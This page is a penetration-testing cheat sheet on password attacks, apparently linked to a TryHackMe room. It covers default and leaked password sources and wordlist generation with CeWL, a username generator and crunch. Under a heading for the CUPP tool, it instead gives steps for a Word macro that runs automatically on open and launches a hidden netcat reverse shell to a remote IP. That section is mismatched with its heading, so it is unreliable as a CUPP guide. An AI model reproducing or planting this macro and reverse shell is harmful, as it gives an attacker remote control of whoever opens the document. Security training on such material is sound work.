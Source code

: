# Password Attacks

## Theory

Having a good wordlist is critical to carrying out a successful password attack. It is important to know how you can generate username lists and password lists. In this section, we will discuss creating targeted username and password lists. We will also cover various topics, including default, weak, leaked passwords, and creating targeted wordlists.
We will also speak about tools used to perform online and offline password attacks.

## Practice
### Default Passwords
Here are some website lists that provide default passwords for various products.
1 - [Cirt.net](https://cirt.net/passwords)  
2 - [Default-password](https://default-password.info/)
3 - [Datarecovery](https://datarecovery.com/rd/default-passwords/) 

### Leaked Passwords
Here are some website and tools that provide ressources about leaked passwords.
1 - [PwnedOrNot](https://github.com/thewhiteh4t/pwnedOrNot)
2 - [SecLists/Passwords/Leaked-Databases](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases)

### Wordlist from website content
CeWL (Custom Word List generator) is a ruby app which spiders a given URL, up to a specified depth, and returns a list of words which can then be used for password crackers such as John the Ripper. Optionally, CeWL can follow external links.

```bash
cewl -w list.txt -d 5 -m 5 http://target.net
```

### Generate User List
Gathering employees' names in the enumeration stage is essential. We can generate username lists from the target's website. For the following example, we'll assume we have a {first name} {last name} (ex: John Smith) and a method of generating usernames.  

Thankfully, there is a tool [username_generator](https://github.com/therodri2/username_generator.git) that could help create a list with most of the possible combinations if we have a first name and last name.

```bash
python3 username_generator.py -w users.lst
```

### Crunch - Generate Password list
crunch is one of many powerful tools for creating an offline wordlist. With crunch, we can specify numerous options, including min, max, and options

```
# min=2 max=2 charset=01234abcd outfile=crunch.txt
crunch 2 2 01234abcd -o crunch.txt
```

Crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:

[@] - lower case alpha characters

[,] - upper case alpha characters

[%] - numeric characters

[^] - special characters including space

```
# min=6 max=6 option=pass[0-9][0-9] outfile=stdin
crunch 6 6 -t pass%%
```

### CUPP - Common User Passwords Profiler (OSINT)


{% tabs %}

{% tab title="Basic Usage" %}

1 - Create new word document (CTRL+N)  
2 - Hit ALT+F11 to go into Macro editor  
3 - Double click into the "This document" and CTRL+C/V the below:  

```bash
#Macro
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```

```bash
#C:\tools\shell.cmd
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```

4 - ALT+F11 to switch back to the document editing mode  
5 - Save the file as a macro enabled document, for example as dotm, Word 97-2003 Document.    


{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/passwordattacks" %}


